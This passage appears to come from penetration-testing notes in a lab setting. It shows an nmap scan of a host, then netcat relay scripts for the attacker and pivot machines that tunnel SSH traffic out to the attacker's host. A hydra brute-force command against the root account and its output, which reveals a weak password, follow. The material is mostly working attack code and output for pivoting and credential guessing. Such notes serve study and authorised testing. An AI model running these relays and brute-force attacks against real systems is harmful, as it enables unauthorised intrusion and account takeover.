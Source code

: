 ### Hosts Alive (1)

| Host          | OS | Accuracy |
| ------------- | -- | -------- |
| 172.16.50.222 |    | %        |

### Open Ports and Running Services

#### 172.16.50.222 ( - %)

| Port     | State | Service    | Version                         |
| -------- | ----- | ---------- | ------------------------------- |
| 22/tcp   | open  | ssh        | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80/tcp   | open  | http       | Apache httpd 2.4.18             |
| 3307/tcp | open  | tcpwrapped |                                 |
{% endtab %}
{% endtabs %}

Use `netcat` to pivot an `hydra` attack for the `ssh` service on `172.16.50.222` :

{% tabs %}
{% tab title=" Attacker Machine (listener.sh)" %}
```bash
#!/bin/bash
# Listener Relay

cd /tmp; mknod backpipex p
while true; do
    nc -lvp 111 0<backpipex | nc -lvp 222 | tee backpipex
done;
```
{% endtab %}

{% tab title="Pivot Machine (c2c-relay.sh)" %}
```bash
#!/bin/bash
# Client to Client Relay on

cd /tmp; mknod backpipex p 
while true; do
    nc 172.16.50.222 22 0<backpipex | nc 10.13.37.11 111 | tee backpipex   
done;
```
{% endtab %}

{% tab title="Attacker Machine (Attack)" %}
```
hydra -s 222 -V -l root -P /usr/share/wordlists/dirb/small.txt 127.0.0.1 ssh
```
{% endtab %}

{% tab title="Output" %}
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-18 18:24:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:1/p:2), ~1 try per task
[DATA] attacking ssh://127.0.0.1:222/
[222][ssh] host: 127.0.0.1   login: root   password: root
1 of 1 target successfully completed, 1 valid password found
```